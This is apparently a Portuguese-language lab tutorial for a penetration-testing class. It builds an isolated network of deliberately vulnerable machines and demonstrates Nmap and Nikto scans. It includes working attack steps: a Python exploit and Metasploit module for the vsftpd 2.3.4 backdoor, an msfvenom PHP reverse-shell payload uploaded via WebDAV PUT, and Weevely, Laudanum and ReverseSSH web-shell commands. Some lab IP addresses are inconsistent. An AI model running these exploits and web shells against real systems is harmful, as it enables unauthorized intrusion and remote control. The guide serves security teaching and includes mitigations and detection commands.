







# Aula Prática - Ambientes Vulneráveis para Testes com Scanners

## Índice

1. [Observações](#observações)
2. [Topologia do Laboratório](#topologia-proposta)
   - [Componentes da Topologia](#componentes-da-topologia)
   - [Vantagens da Arquitetura](#vantagens-da-arquitetura)
   - [Recomendações Técnicas](#recomendações-técnicas)
3. [Distribuições e Imagens](#distribuições-e-imagens-utilizadas)
   - [Metasploitable2](#31-metasploitable2---maquina-virtual-vulneravel)
   - [DVWA](#32-dvwa---damn-vulnerable-web-application)
   - [Vulhub](#33-vulhub---ambientes-docker-com-cves)
   - [Kali Linux](#34-kali-linux---distribuicao-para-testes-de-invasao)
4. [Iniciando Laboratórios](#iniciando-laboratorios)
   - [Recursos e Links](#recursos-e-links)
   - [Configuração dos Hosts](#tabela-de-hosts)
   - [Configuração de Redes](#tabela-de-redes-do-virtual-box)
5. [Análise de Vulnerabilidade: vsftpd](#56-análise-de-vulnerabilidade-vsftpd-234)
   - [Contexto do Backdoor](#contexto-histórico)
   - [Funcionamento](#funcionamento)
   - [Impacto](#impacto)
   - [Exploração](#exploracao-com-metasploit)
   - [Verificação](#verificacao-com-nmap)
   - [Exploit Manual](#exploit-manual-python)
6. [Análise de Vulnerabilidade: Nikto Scanner](#6-análise-de-vulnerabilidade-nikto-scanner)
   - [Detalhes da Ferramenta](#detalhes-da-ferramenta)
   - [Exploração Prática](#exploração-prática)
   - [Mitigações e Recomendações](#mitigações-e-recomendações)
   - [Documentação e Recursos](#documentação-e-recursos-adicionais)
   - [Exemplo de Relatório](#exemplo-de-relatório-completo)
7. [Exploração Avançada](#67-análise-de-vulnerabilidade-payload-maliciosos-com-msfvenom)
   - [Payload com Msfvenom](#payload-com-msfvenom)
   - [Exploração WebDAV](#exploint-usando-um-método-http-put-com-cadaver)
   - [Ferramentas Alternativas](#68-ferramentas-alternativas-para-exploração-webdav)
   - [Mitigações](#mitigações-contra-exploração-webdav)
   - [Detecção](#detecção-de-shells-web)

<hr>

## 1. Observações

- Nunca utilize essas ferramentas ou ambientes em redes de terceiros sem autorização explícita.
- Sempre isole os ambientes vulneráveis em máquinas virtuais ou redes internas controladas.

<hr>

## 2. Topologia do Laboratório


### 2.1 Componentes da Topologia

- **MS2 (Metasploitable2):** Máquina virtual com diversas falhas conhecidas, usada como alvo em testes de exploração.
- **DVWA (Damn Vulnerable Web App):** Aplicação web vulnerável escrita em PHP/MySQL.
- **Vulhub:** Coleção de containers Docker com CVEs específicos para exploração.
- **Kali:** Distribuição Linux voltada para testes de invasão e segurança ofensiva.
- **FW (Firewall):** Componente intermediário que controla o tráfego entre a rede de laboratório e a internet.
- **Docker:** Host destinado a subir aplicações e testes via docker.
- **Nuvem (Internet):** Símbolo de conexão externa controlada.

### 2.2 Vantagens da Arquitetura

- **Isolamento completo:** Alvos vulneráveis estão em rede separada, sem contato com a rede de produção.
- **Controle de tráfego:** O firewall pode restringir acessos externos e simular ataques internos.
- **Facilidade de escalabilidade:** Novas VMs ou containers podem ser adicionados facilmente.
- **Ambiente seguro para testes reais:** Permite exercícios práticos com ferramentas como Nmap, Nikto, Nessus, sqlmap, etc.

### 2.3 Recomendações Técnicas

- Configure a rede virtual como NAT ou Host-only para evitar exposição externa.
- Garanta que apenas o Kali tenha acesso controlado à internet.
- Utilize ferramentas como `iptables`, `ufw` ou `pfSense` para configurar o FW.


## 3. Distribuições e Imagens Utilizadas

### 3.1 Metasploitable2 - Máquina Virtual Vulnerável

**Link para download:**  
https://sourceforge.net/projects/metasploitable/

**Descrição:**  
Distribuição Linux projetada com diversas falhas propositalmente implementadas. Ideal para testes com Nmap, Nessus, OpenVAS e outras ferramentas de análise de vulnerabilidades.

**Credenciais padrão:**
- Usuário: msfadmin
- Senha: msfadmin

**Requisitos:**
- VMware ou VirtualBox
- 1 GB de RAM (mínimo)
- 10 GB de disco (mínimo)
- Rede configurada em modo NAT ou Host-only

### 3.2 DVWA - Damn Vulnerable Web Application

**Repositório GitHub:**  
https://github.com/digininja/DVWA

**Descrição:**  
Aplicação web vulnerável desenvolvida em PHP/MySQL. Simula diversas vulnerabilidades comuns:
- SQL Injection
- Cross-Site Scripting (XSS)
- Cross-Site Request Forgery (CSRF)
- File Inclusion
- Command Injection

**Instalação (Linux com Apache e MySQL):**
```bash
# Clone do repositório
git clone https://github.com/digininja/DVWA.git

# Configuração do ambiente web
sudo cp -r DVWA /var/www/html/
sudo chown -R www-data:www-data /var/www/html/DVWA

# Inicialização dos serviços
sudo service apache2 start
sudo service mysql start
```

**Configuração:**  
1. Edite o arquivo `config/config.inc.php`
2. Configure as credenciais do MySQL
3. Acesse http://localhost/DVWA/setup.php
4. Clique em "Create / Reset Database"

### 3.3 Vulhub - Ambientes Docker com CVEs

**Repositorio GitHub:**  
https://github.com/vulhub/vulhub

**Descricao:**  
Projeto com dezenas de ambientes vulneraveis prontos, usando Docker e docker-compose.

**Instalacao:**

```bash
git clone https://github.com/vulhub/vulhub.git
cd vulhub/wordpress/CVE-2019-8942
docker-compose up -d
```

**Requisitos:**  
- Docker instalado  
- Docker Compose

**Exemplo de uso:**  
Ambiente WordPress vulneravel a CVE-2019-8942 sera exposto nas portas padroes para testes com ferramentas como Nikto, Nmap, etc...

### 4. Kali Linux - Distribuicao para Testes de Invasao

**Site oficial:**  
https://www.kali.org/

**Descricao:**  
Distribuicao baseada em Debian voltada para profissionais de seguranca. Contem centenas de ferramentas pre-instaladas, incluindo Nmap, Nikto, Burp Suite, Metasploit, John the Ripper, e muito mais.

**Instalacao:**  
- Pode ser usada como maquina virtual, pendrive bootavel ou instalada diretamente  
- Disponivel para download em ISO, VMs pre-configuradas e imagens ARM

**Ferramentas populares no Kali:**  
- `nmap` - scanner de portas  
- `nikto` - scanner de vulnerabilidades web  
- `sqlmap` - injecao SQL automatizada  
- `burpsuite` - proxy de interceptacao para testes web  
- `wpscan` - scanner de vulnerabilidades em WordPress  
- `hydra` - ataques de forca bruta a senhas

**Comando exemplo para Nmap no Kali:**

```bash
nmap -sV -p- 192.168.0.10
```
---

# Iniciando Laboratorios

**Gravacao Youtude do deploy dos servidores**
 - Parte 1 - https://youtu.be/-lkHJ9oY3u0
 - Parte 2 - https://youtu.be/ErhBy_LBRPI

**Links com scripts para configuracoes iniciais**
 - https://github.com/charles-josiah/scriptz/blob/master/setup-router-only-for-lab.sh
 - https://github.com/charles-josiah/scriptz/blob/master/howto-install-docker-ubuntu-2404.md

**Tabela de hosts**

| Nome da VM     | IP Interno     | IP Externo     | Interface Externa | Interface Interna | CPU(s) | Memoria (MB) |
|:--------------:|:--------------:|:--------------:|:-----------------:|:-----------------:|:------:|:-------------:|
| FW - LAB       | 192.168.100.1  | DHCP           | enp2              | eth0              |   1    |    1024       |
| kali           | 192.168.100.12  | 10.0.2.15      |                   | ens3              |   2    |    4096       |
| dvwa           | 192.168.100.14  | -              | -                 | eth0              |   1    |    1024       |
| Vulhub         | 192.168.100.15  | -              | -                 | eth0              |   1    |    1024       |
| MS2            | 192.168.100.16  | -              | -                 | eth0              |   1    |    1024       |
| Docker         | 192.168.100.17  | -              | -                 | eth0              |   1    |    2048       |
| Serv-Base      | 192.168.100.18  | -              | -                 | eth0              |   1    |    2048       |


**Tabela de Redes do Virtual BOX**

| Interface de rede VBox     | Rede Interna    | Rede Externa    |
|:--------------:|:--------------:|:--------------:|
| Rede-LAB     |  X  |    |
| Bridged      |   |  X  |


## Fazendo os primeiros scans
Depois de localizar e acessar o Kali Linux e iniciar o MS2
Fazer um scan, bacana como exemplo abaixo...

### NMAP

#### O que é o Nmap?

O **Nmap (Network Mapper)** é uma ferramenta de código aberto usada para descobrir hosts e serviços em uma rede. Ela realiza mapeamento de portas, identifica sistemas operacionais, versões de serviços e possíveis vulnerabilidades.

#### Capacidades do Nmap:

- Descobrir quais dispositivos estão ativos em uma rede
- Identificar portas abertas
- Descobrir serviços e suas versões como Apache, SSH, etc.
- Identificar o sistema operacional do host
- Rodar scripts NSE para verificar vulnerabilidades conhecidas

### 5.2 Exemplos de Uso do Nmap

#### 1. Scan Simples de Host
```bash
nmap 192.168.0.10
```
> Escaneia as 1000 portas mais comuns do host.

#### 2. Scan de Todas as Portas
```bash
nmap -p- 192.168.0.10
```
> Verifica todas as 65535 portas TCP.

#### 3. Descobrir Versões de Serviços
```bash
nmap -sV 192.168.0.10
```
> Retorna nome e versão de cada serviço nas portas abertas.

#### 4. Scan Agressivo com SO e Traceroute
```bash
nmap -A 192.168.0.10
```
> Faz detecção de sistema operacional, traceroute, versão de serviços e scripts NSE.

#### 5. Verificar Vulnerabilidades com Script
```bash
nmap --script vuln -p 21 192.168.0.10
```
> Usa o motor de scripts para verificar vulnerabilidades conhecidas no serviço FTP.

### 5.3 Opções Úteis do Nmap

| Opção              | Descrição                                       |
|--------------------|-------------------------------------------------|
| `-sS`              | TCP SYN scan (modo furtivo)                     |
| `-O`               | Tenta identificar o sistema operacional         |
| `-Pn`              | Ignora ping; assume que o host está ativo       |
| `-T4`              | Acelera o escaneamento (uso comum em LAN)       |
| `-oN resultado.txt`| Salva o resultado em arquivo texto              |

### 5.4 Documentação Oficial do Nmap
- [Nmap Reference Guide](https://nmap.org/book/)
- [NSE Documentation](https://nmap.org/nsedoc/)

### 5.5 Prática no Laboratório

Vamos testar o host MS2 do nosso lab:

```bash
nmap -sV -p- 192.168.100.12
```

Resultado:


### 5.6 Análise de Vulnerabilidade: vsftpd 2.3.4

#### Detalhes do CVE-2011-2523

##### Contexto Histórico
O atacante modificou o código-fonte da versão 2.3.4, inserindo um backdoor deliberado. Este código malicioso não estava presente no repositório oficial de desenvolvimento, apenas na cópia que foi publicada para download no site principal.

##### Funcionamento
- Backdoor ativado por login contendo `:)` via FTP
- Abre shell de comando na porta 6200
- Permite acesso remoto ao sistema

##### Impacto
- Execução de comandos no sistema alvo sem autenticação
- Comprometimento total da máquina
- Acesso remoto como root (dependendo da configuração)

###### Reação do desenvolvedor

- Chris Evans, criador do vsftpd, publicou um alerta explicando a situação e denunciou o comprometimento da integridade do servidor de distribuição:

###### Fontes Adicionais

- CVE detalhado: https://nvd.nist.gov/vuln/detail/CVE-2011-2523  
- Debian Security Tracker: https://security-tracker.debian.org/tracker/CVE-2011-2523  
- GitHub com script: https://github.com/nobodyatall648/CVE-2011-2523

###### Recomendacoes

- Atualizar o vsftpd para uma versao posterior
- Bloquear a porta 6200 caso detectada
- Substituir FTP por SFTP ou FTPS
- Monitorar logs de conexao na porta 21

---

##### Exploracao com Metasploit

```bash
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS <IP_DO_ALVO>
run
```


Facil assim como a vida deve ser...

**Referencia:**  
https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor/

---

###### Verificacao com Nmap

```bash
nmap --script ftp-vsftpd-backdoor -p 21 <IP_DO_ALVO>
```


**Referencia do script:**  
https://nmap.org/nsedoc/scripts/ftp-vsftpd-backdoor.html

---

###### Exploit Manual (Python)

```python
from telnetlib import Telnet

host = "192.168.0.10"
tn = Telnet(host, 21)
tn.read_until(b"(vsFTPd 2.3.4)")
tn.write(b"USER test:)
")
tn.write(b"PASS test
")

shell = Telnet(host, 6200)
shell.interact()
```

**Exploit DB:**  
https://www.exploit-db.com/exploits/49757

---

### Nikto

### 6. Análise de Vulnerabilidade: Nikto Scanner

#### Detalhes da Ferramenta

##### Contexto Técnico
O Nikto é uma das ferramentas mais populares para varredura de vulnerabilidades web, desenvolvida em Perl. É mantida como projeto open source e faz parte do arsenal padrão de ferramentas do Kali Linux. A ferramenta é conhecida por sua base de dados extensa, que inclui mais de 6400 arquivos potencialmente perigosos e mais de 1200 versões de servidores.

##### Funcionamento
- **Motor de Scan:** Realiza requisições HTTP/HTTPS para identificar problemas
- **Base de Dados:** Utiliza arquivo db_tests para verificações
- **Plugins:** Sistema modular que permite extensão das funcionalidades
- **Tuning Options:** Permite ajuste fino das verificações realizadas

##### Capacidades Principais
- Identificação de mais de 6400 arquivos/CGIs potencialmente perigosos
- Verificação de mais de 1200 versões de servidores desatualizadas
- Problemas específicos em mais de 270 tipos de servidores
- Problemas de configuração de SSL/TLS
- Identificação de arquivos de backup e arquivos expostos

##### Impacto e Riscos
- **Exposição de Informações:** Pode revelar versões, tecnologias e configurações
- **Falsos Positivos:** Alta taxa de falsos positivos requer análise manual
- **Footprinting:** Deixa rastros evidentes nos logs do servidor
- **Carga no Servidor:** Pode impactar o desempenho durante o scan

#### Exploração Prática

##### 1. Scan Básico no DVWA
```bash
nikto -h http://192.168.100.14 -C all
```

Resultado:
```
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.100.14
+ Target Hostname:    192.168.100.14
+ Target Port:        80
+ Start Time:         2024-01-20 14:25:47 (GMT-3)
---------------------------------------------------------------------------
+ Server: Apache/2.4.41 (Ubuntu)
+ Retrieved x-powered-by header: PHP/7.4.3
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined.
+ Cookie PHPSESSID created without the httponly flag
+ Web Server returns a valid response with junk HTTP methods
+ OSVDB-3268: /config/: Directory indexing found
+ OSVDB-3092: /config.php: This might be interesting...
```

##### 2. Scan com Autenticação no DVWA
```bash
nikto -h http://192.168.100.14 -id admin:password -C all
```

##### 3. Scan Focado em SSL/TLS
```bash
nikto -h https://192.168.100.14 -ssl -C all
```

#### Mitigações e Recomendações

1. **Configurações do Servidor Web:**
   - Implementar cabeçalhos de segurança (X-Frame-Options, X-XSS-Protection)
   - Desabilitar listagem de diretórios
   - Remover arquivos desnecessários e de backup

2. **Hardening de SSL/TLS:**
   - Desabilitar protocolos SSL/TLS obsoletos
   - Configurar cipher suites seguros
   - Implementar HSTS

3. **Controle de Acesso:**
   - Implementar autenticação em áreas sensíveis
   - Configurar corretamente permissões de arquivos
   - Usar WAF (Web Application Firewall)

#### Documentação e Recursos Adicionais

- **Documentação Oficial:** [https://cirt.net/Nikto2](https://cirt.net/Nikto2)
- **GitHub do Projeto:** [https://github.com/sullo/nikto](https://github.com/sullo/nikto)
- **Wiki com Tutoriais:** [https://github.com/sullo/nikto/wiki](https://github.com/sullo/nikto/wiki)
- **CVE Database:** [https://cve.mitre.org/](https://cve.mitre.org/)

#### Exemplo de Relatório Completo

Vamos realizar um scan completo em nosso servidor de laboratório:

```bash
nikto -h http://192.168.100.14 -Tuning 123bde -Format htm -output nikto-report.html
```



> O relatório mostra várias vulnerabilidades potenciais, incluindo:
> - Versões desatualizadas de software
> - Configurações incorretas de segurança
> - Arquivos sensíveis expostos
> - Problemas com cabeçalhos HTTP de segurança


---
#### 6.7 Análise de Vulnerabilidade: Payload maliciosos com Msfvenom

Primeiramente vamos scannear a rede para detectar o host comprometido
```bash
nikto -h http://192.168.100.11
```



O output do Nikto confirmará se o método PUT está habilitado no servidor de destino. Se mostrar que o método PUT está aberto, o servidor estará vulnerável a ataques de upload de arquivos.

Usaremos o Msfvenom, uma ferramenta poderosa para gerar payloads para o Metasploit. Geraremos um payload TCP reverso do PHP Meterpreter, que nos permitirá estabelecer uma conexão shell reversa com a máquina alvo.

Execute o seguinte comando no Kali Linux para gerar o payload PHP:




```bash
$ msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.10.10 lport=5555 -f raw > webshell.php
```
Obs: 192.168.10.10 ip do atacante.

Isso gerará o código PHP para o shell reverso. Copie o código do payload e salve-o como um arquivo chamado webshell.php na sua máquina Kali.

##### Exploint usando um Método HTTP PUT com cadaver

1. Usando o Cadaver para Upload de Arquivos
 - O Cadaver é uma ferramenta de linha de comando pré-instalada no Kali Linux que permite o upload e download de arquivos de servidores WebDAV.
  Para usar o Cadaver para fazer upload do arquivo webshell.php, siga estes passos:

2. Abra o terminal no Kali Linux e execute:
```bash 
$ cadaver http://192.168.100.11/dav/

dav:/dav/> put webshell.php

```
Retorno: 



Feito isso so validar se o webshell.php esta no servidor comprometido.
Utilizando o navegador de sua preferencia, e usando o endereco incial. No nosso caso, http://192.168.100.11/dav validar se oarquivo webshell.php foi copiado para o servidor vuneravel.



uhuuu o arquivo do reverso esta ali :D 

- agora vamos iniciar o shell reverso para ter acesso ao servidor
voltando ao cli do kali

e vamos entrar no msfconsole

```bash
msf6 > use exploit/multi/handler
msf6 > set payload php/meterpreter/reverse_tcp
msf6 > set lhost 192.168.100.11
msf6 > set lport 5555
msf6 > exploit

```



No browser clique no link: 
-   http://192.168.10.11/dav/webshell.php

Que vimos anteriormente, e este abrirá o tunel reverso apra a estacao do KALI, 192.168.100.11

Digitando sysinfo aparecerá informacoes sobre o servidor. 
Entraremos no shell do servidor invadido, e criaremos um arquivo hacked.html no servidor web... para marcar a nossa presença.




----


#### 6.8 Ferramentas Alternativas para Exploração WebDAV

##### 1. davtest
```bash
# Testa upload de diferentes tipos de arquivos via WebDAV
davtest -url http://192.168.100.11/dav/
```
> O davtest automatiza o teste de upload de vários tipos de arquivos (.php, .asp, .html, etc) e verifica quais são executáveis no servidor.

##### 2. wfuzz
```bash
# Fuzzing de métodos HTTP permitidos
wfuzz -c -z list,PUT-DELETE-MOVE-COPY-PROPFIND -X FUZZ http://192.168.100.11/dav/
```
> Útil para descobrir métodos HTTP habilitados no servidor WebDAV.

##### 3. curl
```bash
# Teste manual de métodos WebDAV
curl -X PROPFIND -H "Depth: 1" http://192.168.100.11/dav/
```
> Ferramenta versátil para testar manualmente diferentes métodos WebDAV.

##### 4. Weevely - Gerador de Shell PHP
```bash
# Gera um shell PHP mais discreto
weevely generate senha123 shell.php
# Upload via WebDAV
cadaver http://192.168.100.11/dav/
dav:/dav/> put shell.php
# Conecta ao shell
weevely http://192.168.100.11/dav/shell.php senha123
```
> Weevely gera shells PHP mais difíceis de detectar e oferece funcionalidades adicionais.

##### 5. ReverseSSH
```bash
# No servidor atacante
reversessh -l 192.168.100.10 -p 4444
# No alvo (após upload do cliente)
./reversessh -c 192.168.100.10 -p 4444
```
> Alternativa para estabelecer conexões reversas via SSH.

##### 6. Laudanum
```bash
# Copia o shell do Laudanum
cp /usr/share/webshells/laudanum/php/shell.php .
# Modifica as credenciais padrão
sed -i 's/default_password/sua_senha/g' shell.php
# Upload via WebDAV
cadaver http://192.168.100.11/dav/
dav:/dav/> put shell.php
```
> Coleção de shells web injetáveis com recursos avançados.

#### Mitigações contra Exploração WebDAV

1. **Configuração do Servidor:**
   - Desabilitar WebDAV se não for necessário
   - Restringir métodos HTTP permitidos
   - Implementar autenticação forte

2. **Filtros de Upload:**
   - Bloquear extensões perigosas (.php, .asp, etc)
   - Validar conteúdo dos arquivos
   - Implementar limites de tamanho

3. **Monitoramento:**
   - Logging de acessos WebDAV
   - Alertas para uploads suspeitos
   - Monitoramento de conexões reversas

4. **Hardening:**
   - Manter software atualizado
   - Usar WAF (Web Application Firewall)
   - Implementar políticas de segurança rigorosas

#### Exemplo Detecção de Shells Web

```bash
# Procura por shells PHP conhecidos
grep -r "shell_exec\|system\|passthru\|exec" /var/www/html/

# Monitora conexões suspeitas
netstat -antp | grep ESTABLISHED

# Verifica uploads recentes
find /var/www/html/ -type f -mtime -1
```

---


